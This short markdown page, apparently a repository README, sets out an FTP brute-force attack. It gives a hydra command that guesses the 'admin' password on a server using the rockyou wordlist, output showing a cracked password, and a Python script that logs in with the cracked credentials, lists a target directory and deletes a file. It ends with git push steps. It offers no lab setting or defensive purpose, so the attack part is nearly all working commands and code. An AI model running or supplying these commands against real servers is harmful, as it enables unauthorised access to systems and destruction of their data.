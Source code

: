 # Hydra Brute-Force Attack

## Command
bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://<server-ip>

Output

    Successfully cracked password: admin:password123.

custom_scripts/soldier.py:

    import ftplib
    ftp = ftplib.FTP('<server-ip>')
    ftp.login('admin', 'password123')
    ftp.cwd('/target/directory')
    ftp.retrlines('LIST')
    ftp.delete('file.txt')

Push the Repository

    Add all files:

    git add .
    git commit -m "Initial commit with setup and implementation"
    git push origin main
